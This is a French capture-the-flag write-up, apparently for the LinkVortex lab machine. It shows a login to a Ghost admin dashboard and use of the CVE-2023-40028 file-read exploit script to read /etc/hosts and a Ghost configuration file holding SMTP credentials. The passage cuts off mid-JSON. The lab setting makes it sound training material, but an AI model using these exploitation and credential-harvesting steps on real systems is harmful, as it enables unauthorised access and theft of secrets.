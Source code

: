 ### Ghost Dashboard
On trouve une page de login permettant d'accéeder au **dashboard** de **Ghost** :
> http://linkvortex.htb/ghost

Intuitivement, on essaye de se connecter avec cette adresse email :
- admin@linkvortex.htb

Credentials :
```bash
admin@linkvortex.htb
OctopiFociPilfer45
```

### Ghost Arbitrary File Read Exploit
Après quelques recherches concernant la version 5.58 de Ghost, on trouve la **CVE-2023-40028** permettant de lire n'importe quel fichier sur la machine de manière arbitraire en utilisant un le compte administrateur.
> https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028

En utilisant la CVE, on tente de lire plusieurs fichiers. Dans **/etc/passwd**, seul l'utilisateur "node" semble avoir un dossier /home, ce qui est étonnant. Ensuite, on trouve le fichier /etc/hosts qui contient :
- 172.20.0.2	484b975c6616

Après vérification, les containers docker on souvent une ip en 172.x.x.x . L'hostname en hexadecimal fait également penser a un container docker.

De plus, on sait que l'application marche avec **Node JS**, et par défaut, les applications node js sont installées dans :
- **/var/lib/[App]**
```bash
$ ./exploit.sh -u admin@linkvortex.htb -p 'OctopiFociPilfer45' -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/hosts
File content:
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.20.0.2	484b975c6616
```

Par déduction, on tente donc de récupérer le fichier de configuration de l'application ghost :
> /var/lib/ghost/config.production.json

On trouve des credentials semblant permettre l'utilisation d'un serveur mail **SMTP** :
> bob@linkvortex.htb  
> fibber-talented-worth
```bash
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
...
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
```